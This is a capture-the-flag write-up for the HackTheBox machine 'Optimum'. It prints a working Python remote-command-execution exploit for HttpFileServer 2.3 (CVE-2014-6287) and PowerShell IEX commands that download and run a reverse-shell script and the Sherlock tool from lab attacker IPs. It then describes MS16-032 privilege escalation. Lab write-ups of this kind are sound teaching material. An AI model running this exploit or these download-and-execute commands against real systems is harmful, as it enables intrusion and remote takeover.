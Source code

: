 ```yaml
---
layout: default
title: Optimum
parent: HackTheBox
nav_order: 7
---
```

# Navigation Structure
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

![](pictures/logo-optimum.png)

- Summary
- Recon
- Exploitation
- Privilege Escalation
{:toc}

## [](#header-2)Summary:

- Enumerate Vulnerable version of file server
- Exploit vulnerability to pop powershell...shell
- Escalate privileges with MS01632


# Navigation Structure
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

![](pictures/logo-optimum.png)

- Summary
- Recon
- Exploitation
- Privilege Escalation
{:toc}

## [](#header-2)Summary:

- Enumerate Vulnerable version of file server
- Exploit vulnerability to pop powershell...shell
- Escalate privileges with MS01632


## [](#header-2)Recon:

Before my nmap scan was even done I found something interesting in the home page.

![](pictures/site-optimum.png)

I am able to see that the service running on port 80 is a server "HttpFileServer 2.3".

I do a searchsploit of HttpFileServer 2.3 and find exactly what I was looking for.


![](pictures/ssploit-optimum.png)

```python
# Exploit Title: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 28-11-2020
# Remote: Yes
# Exploit Author: Óscar Andreu
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287

#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
        http = urllib3.PoolManager()
        url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
        print(url)
        response = http.request('GET', url)

except Exception as ex:
        print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
        print(ex)
```


## [](#header-2)Exploitation:

In order for the exploit to work you need to give the target server a command to run. 

I chose Invoke-PowershellTCP.ps1 and I had to edit it in order to allow the script to run a reverse shell

![](pictures/edit-optimum.png)

Then after running the exploit and setting up our nc listener/ local python server(I renamed Invoke reverse shell to mini-reverse.ps1 on accident)

![](pictures/cm-optimum.png)

Annnnd we get some access
![](pictures/user-optimum.png)



## [](#header-2)Privilege Escalation:

Going through the motions with privesc for a Windows box, I start out with a simple systeminfo command to see what I'm working with.

![](pictures/systeminfo-optimum.png)


From here in order to automate the privesc search process I downloaded from my local python server, Sherlock written by RastaMouse
```powershell
PS C:\Users\kostas\Desktop> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.28/Sherlock/Sherlock.ps1')
```

Runnning Sherlock the system appears vulnerable to the following:

```powershell
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable
```
I used powershell empire's MS01632 exploit to automate this process and was able to get root

![](pictures/root-optimum.png)



This lab was a good walk through to learn certain privilege escalation techniques/methodologies within Windows.